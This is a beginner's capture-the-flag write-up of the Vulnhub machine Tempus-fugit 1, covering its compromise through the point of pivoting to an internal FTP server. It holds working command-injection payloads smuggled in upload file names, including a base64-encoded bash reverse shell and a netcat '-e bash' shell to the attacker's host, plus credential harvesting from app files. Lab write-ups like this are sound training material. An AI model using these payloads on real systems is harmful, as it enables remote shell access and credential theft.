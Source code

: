 ﻿# Tempus-fugit 1

This is the first time I am attempting a CTF. I've gone through walkthroughs of few CTFs before. The resources I follow are hackingarticles.in and [ippsec.rocks](https://ippsec.rocks/?#). The box can be downloaded from [vulnhub](https://www.vulnhub.com/entry/tempus-fugit-1,346/). This is a few months old box.


# Network Scanning

I've imported the .ova file using virtualbox and put both the kali vbox and the Tempus-fugit vbox (target) in the same NATNetwork. The ip target machine can be found using `netdiscover` tool. Since my kali has an ip of 10.0.2.12 and both are in the subnet 10.0.2.0/24, we can use the range parameter in netdiscover to easily find the ip `netdiscover -r 10.0.2.0/16`. From the list of ips found, we can identify the target machine. We can then use `nmap` to find what ports are open on the target machine (its 10.0.2.14 in my case)
```
nmap -sC -sV -oA nmap/nmap 10.0.2.14
# Nmap 7.70 scan initiated Mon Feb 24 02:38:03 2020 as: nmap -sC -sV -oA nmap/nmap 10.0.2.14
Nmap scan report for 10.0.2.14
Host is up (0.00014s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.15.3
|_http-server-header: nginx/1.15.3
|_http-title: Tempus Fugit
|_http-trane-info: Problem with XML parsing of /evox/about
MAC Address: 08:00:27:22:DA:48 (Oracle VirtualBox virtual NIC)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Feb 24 02:38:11 2020 -- 1 IP address (1 host up) scanned in 8.01 seconds
```
# Enumeration
From nmap data, we can see that there is a nginx web server hosted on port 80 and we can connect to it using http. The site looks pretty simple. It has a main page and upload page. There is nothing interesting from the page source, except that it looks like a template. The stuff section of the page has many cards which pop up modals. Nothing interesting here
![clicking the cards pop up these modals](https://github.com/noobfromPitt/CTFadventures/blob/master/vulnhub/Tempus-fugit/images/stuff.png)
The about section mentions something about an ftp server where scripts can be uploaded. This might be out point of injection.
![about section of the page](https://drive.google.com/open?id=1GAauKYFXvGzMaPG6wBDIAiECzKeOxdOX)
Next, the page has a contact us with multiple forms for name, mail, etc. But whatever the input is, the site responds with an error saying the mail server is not responding
![contactus](https://drive.google.com/open?id=1MfYpi49pcAVfM0SB_ahmNYc3l1kVVi61)
The upload page has two buttons to browse and upload files. After selecting a file, the file name gets displayed on the page. So, we can try any XSS vectors here
![browse](https://drive.google.com/open?id=1mB34RLaG-8A6tckqzlga27F35S6lDwuQ)
after the files is uploaded, the contents of the file are displayed on the page. This is interesting, so i tried to check if it executes if there's a command inside a file. But it just shows the command instead.
![command](https://drive.google.com/open?id=1nOw0gqY0uTf-PPgzt3iPhMXIg2vixeFY)
Since its just showing the contents of file, the server might just be using `cat` on the file name to do this. If that's the case, we can append a command in the filename which gets executed after `cat`. To try this, I uploaded a file 'new3.txt;whoami'. Infact, we can append multiple commands seperated by ';'. This was successful and the command `whoami` gets executed and returns root
![whoami- root](https://drive.google.com/open?id=1Zs7-kFXhi4KZGmwSn9U6zjDFr-cm1qBn)
this can be used as a command injection point to spawn a reverse shell. The best way to iterate is using burp suite's repeater. Here are some observations from uploading files with various commands in the name:
* there are two requests during the upload- a POST request with filename parameter. The response to this is a session cookie from the server, which will be passed in the second request (GET). The response to this is a html with the command executed. In case of `ls` after filename, the output html has the following:
![ls](https://drive.google.com/open?id=1bJT35FguriEU1tpBtui7f57LYU0Q2__J)
* the cookie changes everytime there is a new request
* only .txt and .rtf files can be uploaded. The server gives an error saying that only these types are accepted
* reverse shell can be created using bash - `bash -i >& /dev/tcp/10.0.2.12/9001 0<&1`, but unix doesn't allow filenames to have '/' in them. So we cannot use this. I've tried exporting command to an env variable and using it while creating a file, didn't help.
* But we don't have to create a file. Since its a parameter in the request, we can modify the request in burp repeater. But still this doesn't work and gives a 500 error![500 error](https://drive.google.com/open?id=1EzWZy9SqHfxYK16VMOxDZ2Iu5W1K82Ky)
* if there is any '.' in the command, server rejects it saying that its not a text file. So, we cannot add ip addresses in the command
* there are numerous ways to get a [reverse shell](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md), but all these methods need to have ip address in the command. 
* one way to eliminate the '.' and '/' is by encoding the command. `YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4wLjIuMTIvOTAwMSAwPiYxCg==` is the base64 encoded version of `bash -i >& /dev/tcp/10.0.2.12/9001 0<&1`. I created a file and with the name `“new.txt;echo ‘YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4wLjIuMTIvOTAwMSAwPiYxCg==’ | base64 -d > revShell”`. The plan here is to create a file (revShell) in server and then execute it with the next file - `"new.txt;bash revShell"`.  And at the same time, use `nc` to start a listener on the same port (9001) on kali using `nc -lvnp 9001`. Unfortunately, this didn't work and i don't recall why.
* I tried the same process with `nc` based reverse shell (`nc -c bash 10.0.2.12 9001`) as well. This time, the session has established, but I was unable to run any commands and the server returned error *cannot connect to FTP-server*
![session established](https://drive.google.com/open?id=1zB1t_qisexkvi-fz4jTTPuDBm262uoTd)
![FTP timeout](https://drive.google.com/open?id=1I5rVBi83Um0yFedEjntudw8QpW7MBb38)
* one more thing I wanted to try was appending another command to the filename, this time with a .txt extension. I used the filename "new.txt;nc 10.0.2.12 9001 -e bash; a.txt". This should work even though the last command `a.txt` doesn't make any sense. And it worked. This is the first time i got a reverse shell and i was too excited
![shell!! yay](https://drive.google.com/open?id=1vZaflYzAfJRosaHJ59ErBRG2TXFBh1s7)
- we can use `python -c 'import pty;pty.spawn("/bin/bash")'` to prettify the terminal
- I've also used `stty raw -echo` on the kali terminal so that I can use tabbing on this shell

The next step is to get the root flag, which is usually in /root. There's a message.txt file, but it says 'you are not done yet'
![damn!](https://drive.google.com/open?id=1zqn5gUAjgsAlXUribgqkwvB-wsM14HKJ)
Since there are some files we found with `ls` command, lets examine the files.
* most of the files are pretty normal, js and htmls
* the interesting on is the main.py, which runs a flask app to serve the uploads page. All the checks in filenames we discovered so far are coming from this file.
* it also has the credentials of ftp server. We can use it later at some point
![ftp-creds](https://drive.google.com/open?id=1KGxK3o5jlJ8sOHA9UGBOaqlx8ggfGR3u)
* to see what's going on the server, I ran [LinEnum.sh](https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh). It's an amazing tool which enumerates all the useful data on the machine.
* From the linenum output, we can see that we're inside a docker container. This makes sense as there was a docker message during target bootup
![docker](https://drive.google.com/open?id=1WEzeInAosDWXVwtmqz8oSAnZWSCpFK8h)
* there are few file in the root directory- there's another file *entrypoint.sh* which looks to be creating *nginx.conf* file. There's also a *start.sh* script which runs another script */app/prestart.sh*
* another interesting grab from linenum is the history files. *.python_history* has some interesting information
![enter image description here](https://drive.google.com/open?id=1cQ2WnwVchZKoTJN9AwlPEe37TsVK1yld)
* the arp table from linenum shows few ips![enter image description here](https://drive.google.com/open?id=1V26HaWKz0MvWBnWKm-0EqRRqLaVQ0xD4)
* The FTP port should be open on one of these ips. We can check this using `nc -zv 172.19.0.100 21` command
![nc](https://drive.google.com/open?id=1LmHf9IlA1g5JtXnMEwSooo8ewOCEwLRF)
* since 172.19.0.12 has port 21 open, we can connect it using ftp. From the conf files linenum found, there are lftp files. So, server might be using lftp to connect to the FTP server. Using the credentials from main.py, I was able to login. Apart from all the files I earlier uploaded while getting reverse shell, there is a *cmscreds.txt* file which has some credentials
![cmscreds](https://drive.google.com/file/d/1L-oKHi4iTEO00K9umSZBkyrljD2G8Slk/view?usp=sharing)
* linenum also shows *resolv.conf* which has interesting 
![resolv](https://drive.google.com/file/d/1ceCDTRThj4gbTYVFcaMmiIe1fi2QzMjY/view?usp=sharing)

I spent a lot of time after this point but didn't find any leads. So, i looked up other walkthroughs where people used `add apk nmap` to install nmap and scan the ips for open ports.

